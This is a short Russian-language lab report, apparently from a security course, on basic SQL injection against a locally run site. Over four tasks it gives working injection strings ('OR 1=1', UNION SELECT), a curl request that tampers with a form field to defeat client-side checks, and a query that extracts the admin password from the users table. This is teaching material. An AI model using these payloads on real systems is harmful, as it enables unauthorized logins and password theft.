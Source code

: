 # Лабораторная работа 3. Примитивные SQL инъекции.

## Задание 1
Запустим сайт из VSCode. Обойдем защиту двумя способами:

### С помощью кодирования кавычек:
	' OR 1=1;--

### Войдя под произвольным логином:
	' OR 1=1
	  UNION
	  SELECT 'xexe'
	  ORDER BY 1 DESC; --

## Задание 2
Обойдем клиентскую защиту с помощью ``curl``:

	curl 'http://localhost:8080/signin'
	--data-raw 'name=Daria&pass=qazwsx&banned=true'

## Задание 3
Обойдем защиту с помощью кодирования кавычки в альтернативный формат:

	' OR 1=1;--

## Задание 4
Обойдем защиту с помощью кодирования кавычки в альтернативный формат и получим пароль из БД:

	' UNION
	  SELECT null, (SELECT name || '--' || pass
	  FROM users WHERE name = %27admin%27--), NULL FROM dual --
